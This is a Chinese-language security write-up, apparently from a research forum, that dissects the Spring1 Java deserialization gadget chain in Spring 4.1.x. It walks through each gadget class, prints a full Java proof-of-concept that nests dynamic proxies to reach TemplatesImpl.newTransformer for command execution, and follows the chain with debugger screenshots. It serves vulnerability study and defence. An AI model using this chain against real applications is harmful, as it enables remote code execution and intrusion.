# Java反序列化之Spring1链分析 - 先知社区

Java反序列化之Spring1链分析

* * *

## 影响版本

*   spring-core : 4.1.4.RELEASE
*   spring-beans : 4.1.4.RELEASE

导入依赖：

```plain
<!-- https://mvnrepository.com/artifact/org.springframework/spring-core -->
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-core</artifactId>
    <version>4.1.1.RELEASE</version>
</dependency>


<!-- https://mvnrepository.com/artifact/org.springframework/spring-beans -->
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-beans</artifactId>
    <version>4.1.1.RELEASE</version>
</dependency>
```

## 前提知识

`ysoserial`给出的spring1的利用链还是比较完整的。

```plain
/*
   Gadget chain:

      ObjectInputStream.readObject()
         SerializableTypeWrapper.MethodInvokeTypeProvider.readObject()
            SerializableTypeWrapper.TypeProvider(Proxy).getType()
               AnnotationInvocationHandler.invoke()
                  HashMap.get()
            ReflectionUtils.findMethod()
            SerializableTypeWrapper.TypeProvider(Proxy).getType()
               AnnotationInvocationHandler.invoke()
                  HashMap.get()
            ReflectionUtils.invokeMethod()
               Method.invoke()
                  Templates(Proxy).newTransformer()
                     AutowireUtils.ObjectFactoryDelegatingInvocationHandler.invoke()
                        ObjectFactory(Proxy).getObject()
                           AnnotationInvocationHandler.invoke()
                              HashMap.get()
                        Method.invoke()
                           TemplatesImpl.newTransformer()
                              TemplatesImpl.getTransletInstance()
                                 TemplatesImpl.defineTransletClasses()
                                    TemplatesImpl.TransletClassLoader.defineClass()
                                       Pwner*(Javassist-generated).<static init>
                                          Runtime.exec()

 */
```

然后根据Gadget Chain涉及到的关键利用类进行知识补充。

### MethodInvokeTypeProvider

spring核心包有一个类：`org.springframework.core.SerializableTypeWrapper.MethodInvokeTypeProvider`。这个类实现了`TypeProvider`接口，表示这是一个可以进行反序列化的类。

看一下这个类的`readObject`方法，先是调用`org.springframework.util.ReflectionUtils#findMethod(java.lang.Class<?>, java.lang.String)`方法，传入的参数为自身的`provider.getType().getClass()`和`methodName`。

然后调用`org.springframework.util.ReflectionUtils#invokeMethod(java.lang.reflect.Method, java.lang.Object)`方法，反射调用执行`findMethod`获得的method方法，并且这个反射调用是一个无参调用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230922123452-5f2c5b56-5901-1.png)

对于这个类的`readObject`方法而言，`methodName`我们可以通过反射设置为`newTransformer()`方法，关键是如何控制`provider`的`getType()`方法返回的值处理成 TemplatesImpl ，就可以触发漏洞了。

同时可以看到，`org.springframework.core.SerializableTypeWrapper.MethodInvokeTypeProvider`类中也对`TypeProvider`接口中的`getType`方法进行了重构，返回值是一个Type类型的变量。

### ObjectFactoryDelegatingInvocationHandler

在srping-beans的包中存在`org.springframework.beans.factory.support.AutowireUtils.ObjectFactoryDelegatingInvocationHandler`这个类，实现了`Serializable`和`InvocationHandler`接口。表明了这个类一方面可以实现序列化，一方面可以实现动态代理代理某些类。

在 invoke 代理时，会调用 ObjectFactory 的 getObject 方法返回`ObjectFactory`的实例用于 Method 的反射调用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230922123540-7c2082be-5901-1.png)

ObjectFactory 的 getObject 方法返回的对象是泛型的。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230922123612-8ef09e24-5901-1.png)

### AnnotationInvocationHandler

该类在CC1的调试中，分别通过`LazyMap`和`TransformedMap`的利用中已经分析过了。

这里主要分析一下这个类触发代理时`invoke()`会做什么事情。

先获得需要反射调用执行的Method的`Name`，如果方法是toString、hashCode、annotationType等方法，就会对`var7`进行对应的赋值。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230922123642-a12a93ba-5901-1.png)

如果不是上述提到的几种方法，就会进入switch里面的default模块进行执行，`memberValues`存储的即是`AnnotationInvocationHandler`初始化的时候传入的Map。

var4是需要调用方法的名字，然后将var4作为key在Map中寻找对应的value,最后将这个value返回。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230922123712-b2db4668-5901-1.png)

这个类的invoke代理的利用思路就有了：

*   如果说我们想控制一个类的某个方法的返回值
*   可以构造一个Map，里面的`key`是需要更改返回值的方法名，`value`是对应的返回值。
*   然后用`AnnotationInvocationHandler`来动态代理这个类。
*   这样的话，当我们调用代理类的对应方法时，该方法通过`AnnotationInvocationHandler`的`invoke()`方法后，返回值就被修改为需要的返回值。

## 分析调试

这条链分析起来比较复杂，主要靠的是使用InvocationHandler层层代理。用了两次`AnnotationInvocationHandler`实现动态代理来修改方法的返回值，两个动态代理之间是通过`ObjectFactoryDelegatingInvocationHandler`的invoke代理作为chain连接起来的。

直接就用了`su18`师傅对`spring1`分析的POC:

1、先构造一个AnnotationInvocationHandler，实现了代理`ObjectFactory`的`getObject()`方法，修改返回值使其返回TemplatesImpl。

2、然后将动态代理后的`ObjectFactory`类型的变量，传递给`ObjectFactoryDelegatingInvocationHandler`类进行初始化。这样只要触发了ObjectFactoryDelegatingInvocationHandler代理类的任意方法，都会触发代理的`invoke()`方法，从而触发`getObject()`方法的调用。

3、在`org.springframework.core.SerializableTypeWrapper.MethodInvokeTypeProvider#readObject`方法中，通过反射将`methodName`修改为`newTransformer()`。同时，`ReflectionUtils.findMethod()`方法需要`this.provider.getType()`返回的类中存在`newTransformer()`方法，才可以成功获得`newTransformer()`方法。

​ `MethodInvokeTypeProvider`里面的provider成员变量是`TypeProvider`类型，因此使用AnnotationInvocationHandler动态代理来修改`TypeProvider`的`getType()`方法返回的值。同时因为`getType()`方法返回的类型为`Type`，并且我们需要在返回值的类中找到对应的`newTransfromer()`方法，所以`getType()`方法需要修改的返回值是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类。

4、第三步中，`ObjectFactoryDelegatingInvocationHandler`实现了`InvocationHandler`接口，我们就可以使用`ObjectFactoryDelegatingInvocationHandler`来代理一个既是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类,并将这个类放到`getType()`返回的值中。

​ 这样当程序运行到到`org.springframework.util.ReflectionUtils#invokeMethod`方法的时候，会调用`ObjectFactoryDelegatingInvocationHandler`代理后的类的`newTransformer()`方法，然后就会触发`org.springframework.beans.factory.support.AutowireUtils.ObjectFactoryDelegatingInvocationHandler#invoke`方法，然后就会触发`ObjectFactory`的`getObject()`，这就与第一步和第二步做的事情联系到一起了。

5、最终在`org.springframework.beans.factory.support.AutowireUtils.ObjectFactoryDelegatingInvocationHandler#invoke`中实现触发命令执行。

```plain
TemplatesImpl tmpl = Util.SeralizeUtil.generateTemplatesImpl();
        // 使用 AnnotationInvocationHandler 动态代理
        Class<?>       c           = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        HashMap<String, Object> map = new HashMap<>();
        map.put("getObject", tmpl);

        // 使用动态代理初始化 AnnotationInvocationHandler
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map);

        // 使用 AnnotationInvocationHandler 动态代理 ObjectFactory 的 getObject 方法，使其返回 TemplatesImpl
        ObjectFactory<?> factory = (ObjectFactory<?>) Proxy.newProxyInstance(
                ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class}, invocationHandler);
                // 当触发factory.getObject()方法时，返回值就被修改为tmpl

        // test :  factory.toString();

                //ObjectFactoryDelegatingInvocationHandler 的 invoke 方法触发 ObjectFactory 的 getObject
                //并且会调用 method.invoke(返回值,args)
                //此时返回值被我们使用动态代理改为了 TemplatesImpl
                //接下来需要 method 是 newTransformer()，就可以触发调用链了
        Class<?>       clazz          = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> ofdConstructor = clazz.getDeclaredConstructors()[0];
        ofdConstructor.setAccessible(true);
        // 使用动态代理出的 ObjectFactory 类实例化 ObjectFactoryDelegatingInvocationHandler
        InvocationHandler ofdHandler = (InvocationHandler) ofdConstructor.newInstance(factory);

                //HashMap hashMap = (HashMap) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),HashMap.class.getInterfaces(),ofdHandler);
                //hashMap.get(1);
        // ObjectFactoryDelegatingInvocationHandler 本身就是个 InvocationHandler
        // 使用它来代理一个类，这样在这个类调用时将会触发 ObjectFactoryDelegatingInvocationHandler 的 invoke 方法
        // 我们用它代理一个既是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类
        // 这样这个代理类同时拥有两个类的方法，既能被强转为 TypeProvider.getType() 的返回值，又可以在其中找到 newTransformer 方法
        Type typeTemplateProxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{Type.class, Templates.class}, ofdHandler);

        // typeTemplateProxy.hashCode();

        // 接下来代理  TypeProvider 的 getType() 方法，使其返回我们创建的 typeTemplateProxy 代理类
        HashMap<String, Object> map2 = new HashMap<>();
        map2.put("getType", typeTemplateProxy);

        InvocationHandler newInvocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map2);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        // 使用 AnnotationInvocationHandler 动态代理 TypeProvider 的 getType 方法，使其返回 typeTemplateProxy
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{typeProviderClass}, newInvocationHandler);


        // 初始化 MethodInvokeTypeProvider
        Class<?>       clazz2 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> cons   = clazz2.getDeclaredConstructors()[0];
        cons.setAccessible(true);
        // 由于 MethodInvokeTypeProvider 初始化时会立即调用  ReflectionUtils.invokeMethod(method, provider.getType())
        // 所以初始化时我们随便给个 Method，methodName 我们使用反射写进去
        Object objects = cons.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        Field field   = clazz2.getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(objects, "newTransformer");

        // Util.SeralizeUtil.writeObjectToFile(objects,"spring1");
        Util.SeralizeUtil.readFileObject("spring1");
```

接下来通过调试分析一下完整的Gadget链触发的过程。

程序反序列化的入口点位于：`org.springframework.core.SerializableTypeWrapper.MethodInvokeTypeProvider#readObject`。当前的`provider`是一个`AnnotationInvocationHandler`动态代理类，`memberValues`存储的`key`为getType,对应的`value`是一个ObjectFactoryDelegatingInvocationHandler动态代理的类，其中的`objectFactory`成员变量同样也是一个由`AnnotationInvocationHandler`动态代理的类。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230922123743-c5285bb2-5901-1.png)

调用`this.provider.getType()`方法会触发`sun.reflect.annotation.AnnotationInvocationHandler#invoke`方法，会返回一个`ObjectFactoryDelegatingInvocationHandler`的动态代理类。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230922123811-d6361d04-5901-1.png)

然后在`org.springframework.util.ReflectionUtils#findMethod()`遍历了`Type`和`Template`两个接口的所有方法中找到了`newTrasnformer()`方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230922123834-e3f0d038-5901-1.png)

接着在调用`ReflectionUtils.invokeMethod()`方法前，传入参数的时候同样会再度触发动态代理修改`provider.getType()`方法返回值的情况。与上文一致，就不在赘述。

直接进入`org.springframework.util.ReflectionUtils#invokeMethod(java.lang.reflect.Method, java.lang.Object, java.lang.Object...)`里面分析，target是`ObjectFactoryDelegatingInvocationHandler`代理的类，会反射调用target的`newTransformer()`方法，`ObjectFactoryDelegatingInvocationHandler`实现了`InvocationHandler`动态代理接口，因此会先触发`ObjectFactoryDelegatingInvocationHandler`的`invoke`方法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230922123913-fad2c162-5901-1.png)

`ObjectFactoryDelegatingInvocationHandler`的`invoke`方法中，`objectFactory`成员变量是一个`AnnotationInvocationHandler`的代理类，里面的Map存储的key为`getObject`，对应的value为`templatesImpl`类。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230922123938-09b17e1c-5902-1.png)

当触发`this.objectFactory.getObject()`方法的时候，同样也会触发`sun.reflect.annotation.AnnotationInvocationHandler#invoke`方法，同时因为`org.springframework.beans.factory.ObjectFactory#getObject`返回的类型为泛型，所以会直接返回封装好的`TemplateImpl`类型的恶意类。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230922124001-17b3a38c-5902-1.png)

接着就通过反射调用执行`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl#newTransformer`，实现命令执行。

[](https://xzfile.aliyuncs.com/media/upload/picture/20230922124016-207b87b4-5902-1.png)

## 总结

spring1链的作者对动态代理的理解相当到位，嵌套了很多层代理，充分利用每层代理的`invoke`方法来实现自己的目的。

通过`AnnotationInvocationHandler`对`TypeProvider`和`ObjectFactory`类的代理，使得在触发`getType()`和`getObject()`方法的时候，会将对应方法的返回值修改。

通过创建同时实现`Type`和`Templetes`接口的代理类来使目标可以获取到`newTransformer`的Method对象，最后又利用`ObjectFactoryDelegatingInvocationHandler`动态获取`TemplatesImpl`对象反射调用`newTransformer`完成利用。

整个链详细的利用过程分析调试已经说的很清楚了。

这里最后给出三层代理构成的恶意类的示意图：

